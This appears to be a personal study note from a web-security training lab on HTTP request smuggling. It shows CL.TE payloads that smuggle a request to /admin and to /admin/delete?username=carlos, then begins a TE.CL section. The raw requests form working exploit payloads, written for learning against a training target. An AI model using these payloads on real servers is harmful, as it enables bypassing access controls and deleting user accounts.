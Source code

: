 ```http
POST / HTTP/1.1
Host: 0a54004204172afd81621b5c003c001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Transfer-Encoding: chunked

3
abc
0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

x=
```

To find the minimum content length to set, look at the body `x=` which is 2 bytes and also make sure that one byte is appended to it from the normal request so try a length of 3. 

This may bypass the controls. If so, try modifying the request to delete the user:

```http
POST / HTTP/1.1
Host: 0a54004204172afd81621b5c003c001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Transfer-Encoding: chunked

3
abc
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

x=
```

![[CLTE Delete.png]]
# Exploiting TE.CL to Bypass Front-End Security

For example, try sending a request to the home page to Repeater and set it up by changing the request to HTTP/1.1 and changing the request method to POST and removing unnecessary headers.

>[!info]
>Since it is a TE.CL vulnerability, make sure it does not update the content length automatically.

To begin, try adding the following to the standard request to try differential responses by requesting a random endpoint. Think of the request from the POV from the front-end server using TE  so make sure it forwards the entire request body to the back-end server.
